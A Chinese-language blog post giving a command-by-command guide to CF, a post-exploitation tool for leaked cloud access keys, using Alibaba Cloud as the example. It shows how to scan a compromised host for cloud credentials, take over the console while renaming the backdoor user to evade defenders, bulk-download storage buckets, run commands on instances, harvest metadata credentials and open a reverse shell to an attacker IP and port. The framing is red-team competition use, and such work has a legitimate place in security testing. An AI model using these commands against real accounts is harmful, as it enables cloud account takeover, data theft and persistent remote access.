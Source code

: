 ```yaml
---
title: CF 云环境利用框架最佳实践
date: 2023-06-04 10:25:53
id: 230604-102553
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202209071737405.png
tags:
- 云安全
- 最佳实践
- CF
categories:
- 云安全
---
```


考虑到在 CF 中有些功能可能知道的人不多，这里写篇文章介绍一下。

CF 是一个云环境利用工具，当获得 AccessKey 即云服务的访问凭证后，就可以使用 CF 进行 AK 的后利用，CF 项目地址：[github.com/teamssix/cf](https://github.com/teamssix/cf)

本文介绍的功能基于 0.4.5 版本，以下介绍统一以阿里云为例，关于其他的云是否适配相关命令需要以 CF 使用手册为准，CF 使用手册地址：[wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

### 配置功能

CF 中集成了扫描本地凭证的功能，使用这个功能可以快速收集本机上存储的云访问凭证，当拿下主机权限的时候，可以使用这个功能快速收集当前主机上的云凭证信息。

```bash
cf config scan
```

另外在 CF 中使用 cf config 命令配置完凭证后，如果想查看已配置的凭证，直接加上 ls 即可

```bash
cf config ls
```

如果凭证太长没有展示全，可以加上 -a 参数，查看完整的凭证内容

```bash
cf config ls -a
```

至于删除凭证加上 del 即可

```bash
cf config del
```

如果凭证中有个参数配置错了，可以加上 mf 去修改凭证中某一项的内容

```bash
cf config mf
```

若在同一个云下配置了多个凭证，想切换凭证那直接加上 sw 即可

```bash
cf config sw
```

### 接管控制台功能

接管控制台应该是 CF 使用最高频的一个功能了，当接管阿里云控制台的时候，直接使用 cf alibaba console 命令即可，这样会自动创建一个名为 crossfire 的用户，所以当蓝队发现自己的云平台用户中有一个叫 crossfire 的用户，那么可以大概率说明自己的云已经被人搞了。

对于红队而言，如果不想那么明显，可以使用 -u 指定用户名，这样也许不会被有经验的一眼看出来

```bash
cf alibaba console -u test
```

另外，这个自定义的用户名不能和平台上已有的用户名冲突，不然会接管失败

在接管后，如果想查看之前接管的信息，直接加上 ls 即可

```bash
cf alibaba console ls
```

在接管控制台之后，如果整个利用过程已经结束、项目也已经结束的时候，建议取消接管，使用 cancel 命令即可

```bash
cf alibaba console cancel
```

### 对象存储功能

有时碰到有的 AK 权限做的比较严格，必须要指定 Bucket Name 才能列出 Buckets 里的信息，这时可以使用 -b 参数指定 Bucket Name

```bash
cf alibaba oss ls -b bucket_name
```

CF 除了查看 Buckets 整体统计信息外，也可以列出 Objects 的信息，在控制台中默认会列出前一百条 Objects 信息，同时会把完整的结果导出在 result 文件夹中，因此想查看完整的结果可以直接打开 result 中的表格文件，比在控制台上看更方便

```bash
cf alibaba oss obj ls
```

CF 也可以直接下载 Buckets 里的所有文件，方便自己手工在本地去翻敏感信息，顺便提一句，从平时打攻防和身边朋友反馈来看，Buckets 里能翻出敏感信息的概率还是蛮大的，这个就是一个细活儿了，需要耐下心来，慢慢的翻

```bash
cf alibaba oss obj get
```

有时候做攻防到最后，就是看谁更细心、更有耐心，这时考验的就是一个人的品质而不是技术了。如果只是想着拿下权限就行了，接管了 Buckets 就行了，那最后的分数或许就没有其他更有耐心、更细心的队伍高。

### 弹性实例功能

在 CF 中内置了阿里云的一些私有区域，默认情况下是不调用的，如果想遍历所有的区域来搜索 ECS，可以加上 -a 参数，兴许会有意外的惊喜

```bash
cf alibaba ecs ls -a
```

CF 在 Windows 实例中执行命令的时候，默认会以 bat 脚本执行命令，如果想以 ps 脚本执行命令，可以加上 -s ps 参数

```bash
cf alibaba ecs exec -c \$PSVersionTable -s ps
```

如果想执行多行命令，使用 -f 指定一个文本文件，在文件中写入自己想执行的命令即可

```bash
cf alibaba ecs exec -f teamssix.txt
```

在发现当前凭证下有多台实例，需要证明拥有这些实例权限的时候，可以使用 -b 命令，批量为这些实例执行三要素，从而证明权限，方便报告的编写，让裁判无话可说

```bash
cf alibaba ecs exec -b
```

有的实例也许可以在元数据中获取到临时凭证，如果我们能获取到这个临时凭证信息，兴许可以进行下一步的内网横行，但一个个的在实例中去构造、访问元数据地址太过麻烦，现在只要使用 -m 参数，就可以一键发现这些实例的元数据中有没有临时凭证

```bash
cf alibaba ecs exec -m
```

只是使用 CF 去执行命令也许会觉着不太过瘾，因此在 CF 中集成了一键反弹 Shell 的功能，只需要在自己的服务器上开启 NC 监听，然后让 CF 去反弹 Shell 就行了

```bash
cf alibaba ecs exec --lhost 123.123.123.123 --lport 4444
```

### 其他

CF 在运行前，如果距离上一次运行超过 24 小时就会检查一下有无更新，在有新版本的时候，可以使用 upgrade 命令直接更新，无需再到 GitHub 中下载

```bash
cf upgrade
```

当对 CF 中某个命令不熟悉的时候，可以直接使用 help 命令查看帮助，CF 在所有的帮助信息中，都提供了中英双语展示，是不是很贴心，还没给 CF  Star 的师傅看到这里，还不给个 Star 嘛

```bash
cf help alibaba ecs exec
```

最后，在 CF 中，我还放置了些彩蛋，应该不难找，哈哈 ～

>  更多信息欢迎关注我的个人微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204152148071.png)
